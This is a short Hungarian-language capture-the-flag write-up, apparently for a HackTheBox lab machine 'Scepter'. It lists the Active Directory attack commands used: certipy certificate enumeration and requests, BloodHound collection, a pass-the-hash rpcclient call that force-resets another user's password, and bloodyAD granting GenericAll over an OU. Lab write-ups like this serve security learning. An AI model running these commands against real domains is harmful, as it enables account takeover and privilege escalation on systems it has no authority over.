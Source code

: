 
## Certipy find & új cert szerezése

```bash
certipy find -k -no-pass -dc-ip 10.10.11.65 -target dc01.scepter.htb
certipy req -u 'd.baker@scepter.htb' -dc-ip 10.10.11.65 -dc-host dc01.scepter.htb -target dc01.scepter.htb -ca 'scepter-DC01-CA' -template 'User' -k -no-pass
```

---

## Bloodhound & Privilege Escalation Chain

**Bloodhound futtatása:**
```bash
sudo bloodhound-python \
   -u 'd.baker' \
   -d scepter.htb \
   -k -no-pass \
   -dc dc01.scepter.htb \
   -ns 10.10.11.65 \
   --dns-tcp \
   --disable-autogc \
   -c all --zip
```
**Találat:**  
- d.baker user tud **force change password-ot** végrehajtani a.carter-en.

---

## Force Change Password - a.carter user

## Certipy auth új NT hash és ccache

```bash
certipy auth -pfx d.baker.pfx -dc-ip 10.10.11.65
export KRB5CCNAME=d.baker.ccache
```
## a.carter jelszó megváltoztatása rpcclientben

```bash
pth-rpcclient -U 'SCEPTER\d.baker%aad3b4...:18b5fb...' 10.10.11.65 -c "setuserinfo2 a.carter 23 'NoSecHere!'"
```

---

## GenericAll StaffAccessCertificate OU felett

```bash
bloodyAD -d scepter.htb -u a.carter -p 'NoSecHere!' --host dc01.scepter.htb --dc-ip 10.10.11.65 add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" a.carter
[+] a.carter has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```

---